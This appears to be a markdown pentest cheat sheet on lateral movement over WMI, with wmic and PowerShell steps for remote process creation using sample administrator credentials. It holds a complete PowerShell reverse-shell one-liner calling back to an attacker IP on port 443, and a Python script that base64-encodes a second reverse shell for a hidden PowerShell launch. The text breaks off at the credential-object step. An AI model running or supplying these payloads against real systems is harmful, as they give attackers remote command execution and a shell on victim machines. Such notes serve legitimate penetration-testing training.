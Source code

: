 ### WMI
> Prerequisites: "To create a process on the remote target via WMI, we need the credentials of a member of the *Administrators* local group (on the remote target)". Port TCP/135.
#### WMI with `wmic`
Simple RCE example 
```PowerShell
`wmic /node:192.168.50.73 /user:jen /password:Password123! process call create "calc"`
```
Reverse Shell RCE example
```PowerShell
wmic /node:192.168.50.73 /user:jen /password:Password123! process call create "powershell -nop -w hidden -c \"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.195',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}\""
```
#### WMI with PowerShell
(Same prerequisites as above)
1) Create PowerShell base64 (UTF-16) payload
2) Start reverse listener
3) Create PSCredential object
4) Create CIM (Common Information Model) object
5) Invoke CIM Method

**1) Create PowerShell base64 (UTF-16) payload**
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```
Feed this output into step 5 `$Command` variable below

**2) Start reverse listener**
**3) Create PSCredential object**
```PowerShell
$username = 'jen';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
